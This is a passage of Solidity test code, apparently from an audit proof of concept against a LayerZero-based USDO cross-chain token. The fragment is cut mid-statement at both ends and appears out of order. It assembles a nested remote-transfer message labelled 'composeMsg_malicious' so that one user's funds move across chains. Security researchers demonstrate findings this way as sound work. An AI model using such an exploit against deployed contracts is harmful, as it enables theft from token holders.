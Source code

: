 ```solidity
                    msgType: PT_REMOTE_TRANSFER,
                    composeMsgData: ComposeMsgData({
                        index: 0,
                        gas: 1_000_000,
                        value: uint128(remoteMsgFee_.nativeFee),
                        data: remoteTransferMsg_,
                        prevData: bytes(""),
                        prevOptionsData: bytes("")
                    }),
                    lzReceiveGas: 1_000_000,
                    lzReceiveValue: 0
                })
            );
            
            composeMsg_malicious = prepareLzCallReturn2_.composeMsg;
        }

        {

            // @dev `remoteMsgFee_` is to be airdropped on dst to pay for the `remoteTransfer` operation (B->A).
            PrepareLzCallReturn memory prepareLzCallReturn1_ = usdoHelper.prepareLzCall( // B->A data
                IUsdo(address(bUsdo)),
                PrepareLzCallData({
                    dstEid: aEid,
                    recipient: OFTMsgCodec.addressToBytes32(address(userB)),
                    amountToSendLD: 0,
                    minAmountToCreditLD: 0,
                    msgType: SEND,
                    composeMsgData: ComposeMsgData({
                        index: 0,
                        gas: 0,
                        value: 0,
                        data: bytes(""),
                        prevData: bytes(""),
                        prevOptionsData: bytes("")
                    }),
                    lzReceiveGas: 1_000_000,
                    lzReceiveValue: 0
                })
            );
            remoteLzSendParam_ = prepareLzCallReturn1_.lzSendParam;
            remoteMsgFee_ = prepareLzCallReturn1_.msgFee;

            remoteLzSendParam_.fee.nativeFee += 806;
            remoteMsgFee_.nativeFee += 806;
        }

        /**
         * Actions
         */

        RemoteTransferMsg memory remoteTransferData =
            RemoteTransferMsg({composeMsg: composeMsg_malicious, owner: address(userB), lzSendParam: remoteLzSendParam_});
        bytes memory remoteTransferMsg_ = usdoHelper.buildRemoteTransferMsg(remoteTransferData);

        PrepareLzCallReturn memory prepareLzCallReturn2_ = usdoHelper.prepareLzCall(
            IUsdo(address(aUsdo)),
            PrepareLzCallData({
                dstEid: bEid,
                recipient: OFTMsgCodec.addressToBytes32(userB),
```